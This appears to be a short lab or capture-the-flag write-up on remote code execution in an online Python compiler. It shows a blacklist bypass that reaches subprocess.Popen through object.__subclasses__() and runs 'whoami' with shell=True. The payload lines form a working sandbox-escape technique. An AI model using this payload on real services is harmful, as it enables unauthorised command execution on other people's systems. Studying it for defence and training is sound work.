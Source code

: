 # 2- RCE (Remote Code Execution)

## 2.1- Python Code Injection

We have an online python compiler :

<img width="886" alt="image" src="https://user-images.githubusercontent.com/76447395/165282766-8e9950e5-6f98-436d-b984-af0498c86211.png">

In `app.py` we can see a blacklist of words we can use, so we can use builtin classes to execute code, first of all we have to check the `subprocess` class :

```py
print(''.__class__.mro()[1].__subclasses__())
```

<img width="1128" alt="image" src="https://user-images.githubusercontent.com/76447395/165287900-2187408b-50b7-45ca-9df9-db94fd2826dd.png">

Nice! It's located in the position 349, let's try to execute code :

```py
print(''.__class__.mro()[1].__subclasses__()[349]('whoami',shell=True,stdout=-1).communicate()[0].strip())
```

<img width="1113" alt="image" src="https://user-images.githubusercontent.com/76447395/165288058-5eeae439-af6a-4ae0-a3d1-91f04b5a9df8.png">
